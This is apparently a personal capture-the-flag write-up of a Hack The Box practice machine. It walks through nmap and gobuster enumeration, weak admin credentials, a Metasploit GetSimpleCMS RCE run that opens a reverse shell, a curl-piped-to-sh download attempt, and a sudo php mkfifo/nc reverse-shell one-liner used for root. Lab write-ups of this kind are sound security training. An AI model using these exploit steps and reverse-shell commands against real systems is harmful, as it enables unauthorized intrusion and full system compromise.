

############
Boxes Pwned
############

Getting Started - Knowledge check box
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

https://p.ip.fi/BrXY -- terminal logs that contain exploitation of the box using msfconsole (we get user level or non-root permissions here). 

https://p.ip.fi/5iip -- attack vm terminal logs that were used to listen to connections and get the compromised box to connect to us (to escalate privileges)

nmap scan
=========

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge/nmap-scans]
   └─$ nmap -sV --open 10.129.230.124 -oA nmap_scan
   Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 00:35 EDT
   Nmap scan report for 10.129.230.124
   Host is up (0.019s latency).
   Not shown: 998 closed tcp ports (reset)
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
   80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 7.06 seconds

nmap full scan
===================================

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge/nmap-scans]
   └─$ nmap -sV --open -p- -oA nmap_full_scan 10.129.230.124 -O
   Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-24 00:36 EDT
   Nmap scan report for 10.129.230.124
   Host is up (0.017s latency).
   Not shown: 65533 closed tcp ports (reset)
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
   80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
   Device type: general purpose|router
   Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
   OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
   OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
   Network Distance: 2 hops
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

   OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 17.57 seconds

Directory enumeration with gobuster
===================================

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge]
   └─$ gobuster dir -u http://10.129.230.124 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
   ===============================================================
   Gobuster v3.6
   by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
   ===============================================================
   [+] Url:                     http://10.129.230.124
   [+] Method:                  GET
   [+] Threads:                 10
   [+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
   [+] Negative Status codes:   404
   [+] User Agent:              gobuster/3.6
   [+] Timeout:                 10s
   ===============================================================
   Starting gobuster in directory enumeration mode
   ===============================================================
   /.hta                 (Status: 403) [Size: 279]
   /.htaccess            (Status: 403) [Size: 279]
   /.htpasswd            (Status: 403) [Size: 279]
   /admin                (Status: 301) [Size: 316] [--> http://10.129.230.124/admin/]
   /backups              (Status: 301) [Size: 318] [--> http://10.129.230.124/backups/]
   /data                 (Status: 301) [Size: 315] [--> http://10.129.230.124/data/]
   /index.php            (Status: 200) [Size: 5485]
   /plugins              (Status: 301) [Size: 318] [--> http://10.129.230.124/plugins/]
   /robots.txt           (Status: 200) [Size: 32]
   /server-status        (Status: 403) [Size: 279]
   /sitemap.xml          (Status: 200) [Size: 431]
   /theme                (Status: 301) [Size: 316] [--> http://10.129.230.124/theme/]
   Progress: 4750 / 4750 (100.00%)
   ===============================================================
   Finished
   ===============================================================

/admin works with weak credentials :  
**username:** admin  
**password:** root

Reference:  
https://www.broadcom.com/support/security-center/attacksignatures/detail?asid=31745

upgrade to better tty
===================================

.. code-block:: console

   python3 -c 'import pty; pty.spawn("/bin/bash")'

Not able to download LinEnum.sh script
===================================

initial approach : used wget to download the script from a python http server running on the attack VM, didn't work

.. code-block:: console

    www-data@gettingstarted:/home/mrb3n$ wget 10.10.15.44:8000/LinEnum.sh
    wget 10.10.15.44:8000/LinEnum.sh
    --2025-06-24 07:38:10--  http://10.10.15.44:8000/LinEnum.sh
    Connecting to 10.10.15.44:8000... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 46631 (46K) [text/x-sh]
    LinEnum.sh: Permission denied

    Cannot write to ‘LinEnum.sh’ (Permission denied).

another approach : even directly using wget to download the script from github doesnt work :

.. code-block:: console

    www-data@gettingstarted:/home/mrb3n$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    <sercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    --2025-06-24 08:11:56--  https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    Resolving raw.githubusercontent.com (raw.githubusercontent.com)... failed: Temporary failure in name resolution.
    wget: unable to resolve host address ‘raw.githubusercontent.com’
    also tried LinPEAS script but no DNS resolution available.

also tried downloading the LinPEAS script, but since it's not able to resolve the host address, i dont think it'll work either :

.. code-block:: console

    www-data@gettingstarted:/home/mrb3n$ curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
    <g/PEASS-ng/releases/latest/download/linpeas.sh | sh
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload  Upload   Total   Spent    Left  Speed
    0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:-  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:01 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:02 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:03 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:04 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:05 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:06 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:07 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:08 --:--:-  0     0    0     0    0     0      0      0 --:--:--  0:00:09 --:--:--     0curl: (6) Could not resolve host: github.com

another approach : let's check if we can start an ssh server on the attack vm and get the box to connect to it. if it's possible, we'll try downloading the LinEnum script. It is important for us to use this script to check if there are any other glaring vulnerabilities we can exploit.

--------------HERE--------------------

check which commands require the mrb3n to use sudo
===================================

.. code-block:: console

   www-data@gettingstarted:/home/mrb3n$ sudo -l
   User www-data may run the following commands on gettingstarted:
       (ALL : ALL) NOPASSWD: /usr/bin/php

Privilege escalation using PHP reverse shell:

.. code-block:: console

   sudo /usr/bin/php -r "system('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.44 8443 >/tmp/f');"

obtaining the user.txt flag
===================================

.. code-block:: console

    ┌──(kali-user㉿kali-linux)-[~/htb-practice/knowledge]
    └─$ msfconsole       
    Metasploit tip: View missing module options with show missing
                                                    
    # cowsay++
    ____________
    < metasploit >
    ------------
        \   ,__,
            \  (oo)____
            (__)    )\
                ||--|| *

        =[ metasploit v6.4.56-dev                          ]
    + -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
    + -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
    + -- --=[ 9 evasion                                       ]

    Metasploit Documentation: https://docs.metasploit.com/

    msf6 > search exploit getcms

    Matching Modules
    ================

    #  Name                                              Disclosure Date  Rank       Check  Description
    -  ----                                              ---------------  ----       -----  -----------
    0  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE

    Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/getsimplecms_unauth_code_exec

    msf6 > use 0 
    [*] No payload configured, defaulting to php/meterpreter/reverse_tcp
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show option
    [-] Invalid parameter "option", use "show -h" for more information
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show options

    Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

    Name       Current Setting  Required  Description
    ----       ---------------  --------  -----------
    Proxies                     no        A proxy chain of format type
                                            :host:port[,type:host:port][
                                            ...]
    RHOSTS                      yes       The target host(s), see http
                                            s://docs.metasploit.com/docs
                                            /using-metasploit/basics/usi
                                            ng-metasploit.html
    RPORT      80               yes       The target port (TCP)
    SSL        false            no        Negotiate SSL/TLS for outgoi
                                            ng connections
    TARGETURI  /                yes       The base path to the cms
    VHOST                       no        HTTP server virtual host

    Payload options (php/meterpreter/reverse_tcp):

    Name   Current Setting  Required  Description
    ----   ---------------  --------  -----------
    LHOST  192.168.78.128   yes       The listen address (an interface
                                        may be specified)
    LPORT  4444             yes       The listen port

    Exploit target:

    Id  Name
    --  ----
    0   GetSimpleCMS 3.3.15 and before

    View the full module info with the info, or info -d command.

    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set RHOSTS 10.129.63.204
    RHOSTS => 10.129.63.204
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set LHOST tun0LHOST => 10.10.15.44
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > check
    [+] 10.129.63.204:80 - The target is vulnerable.
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show payloads

    Compatible Payloads
    ===================

    #   Name                                        Disclosure Date  Rank    Check  Description
    -   ----                                        ---------------  ----    -----  -----------
    0   payload/cmd/unix/bind_aws_instance_connect  .                normal  No     Unix SSH Shell, Bind Instance Connect (via AWS API)
    1   payload/generic/custom                      .                normal  No     Custom Payload
    2   payload/generic/shell_bind_aws_ssm          .                normal  No     Command Shell, Bind SSM (via AWS API)
    3   payload/generic/shell_bind_tcp              .                normal  No     Generic Command Shell, Bind TCP Inline
    4   payload/generic/shell_reverse_tcp           .                normal  No     Generic Command Shell, Reverse TCP Inline
    5   payload/generic/ssh/interact                .                normal  No     Interact with Established SSH Connection
    6   payload/multi/meterpreter/reverse_http      .                normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTP Stager (Multiple Architectures)
    7   payload/multi/meterpreter/reverse_https     .                normal  No     Architecture-Independent Meterpreter Stage, Reverse HTTPS Stager (Multiple Architectures)
    8   payload/php/bind_perl                       .                normal  No     PHP Command Shell, Bind TCP (via Perl)
    9   payload/php/bind_perl_ipv6                  .                normal  No     PHP Command Shell, Bind TCP (via perl) IPv6
    10  payload/php/bind_php                        .                normal  No     PHP Command Shell, Bind TCP (via PHP)
    11  payload/php/bind_php_ipv6                   .                normal  No     PHP Command Shell, Bind TCP (via php) IPv6
    12  payload/php/download_exec                   .                normal  No     PHP Executable Download and Execute
    13  payload/php/exec                            .                normal  No     PHP Execute Command
    14  payload/php/meterpreter/bind_tcp            .                normal  No     PHP Meterpreter, Bind TCP Stager
    15  payload/php/meterpreter/bind_tcp_ipv6       .                normal  No     PHP Meterpreter, Bind TCP Stager IPv6
    16  payload/php/meterpreter/bind_tcp_ipv6_uuid  .                normal  No     PHP Meterpreter, Bind TCP Stager IPv6 with UUID Support
    17  payload/php/meterpreter/bind_tcp_uuid       .                normal  No     PHP Meterpreter, Bind TCP Stager with UUID Support
    18  payload/php/meterpreter/reverse_tcp         .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager
    19  payload/php/meterpreter/reverse_tcp_uuid    .                normal  No     PHP Meterpreter, PHP Reverse TCP Stager
    20  payload/php/meterpreter_reverse_tcp         .                normal  No     PHP Meterpreter, Reverse TCP Inline
    21  payload/php/reverse_perl                    .                normal  No     PHP Command, Double Reverse TCP Connection (via Perl)
    22  payload/php/reverse_php                     .                normal  No     PHP Command Shell, Reverse TCP (via PHP)

    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set payload 4
    payload => generic/shell_reverse_tcp
    msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > run
    [*] Started reverse TCP handler on 10.10.15.44:4444 
    [*] Command shell session 2 opened (10.10.15.44:4444 -> 10.129.63.204:33924) at 2025-06-24 03:35:54 -0400

    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    www-data@gettingstarted:/var/www/html/theme$ ls
    ls
    Cardinal  Innovation  dFJMmjuOgysIkU.php  naNjathzIqT.php
    www-data@gettingstarted:/$ cd /home
    cd /home
    www-data@gettingstarted:/home$ ls
    ls
    mrb3n
    www-data@gettingstarted:/home$ cd mrb3n
    cd mrb3n
    www-data@gettingstarted:/home/mrb3n$ ls
    ls
    user.txt
    www-data@gettingstarted:/home/mrb3n$ cat user.txt
    cat user.txt
    7002d65b149b0a4d19132a66feed21d8

    `

obtaining the root.txt flag
===================================

Target VM:

.. code-block:: console

   www-data@gettingstarted:/home/mrb3n$ sudo /usr/bin/php -r "system('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.15.44 8443 >/tmp/f');"

Attack VM:

.. code-block:: console

   ┌──(kali-user㉿kali-linux)-[~/htb-practice/Nibbles]
   └─$ nc -nvlp 8443
   ...
   root@gettingstarted:~# cat root.txt
   f1fba6e9f71efb2630e6e34da6387842

We successfully obtained **user.txt** and **root.txt** by exploiting GetSimpleCMS RCE and using a `sudo misconfiguration` for privilege escalation.

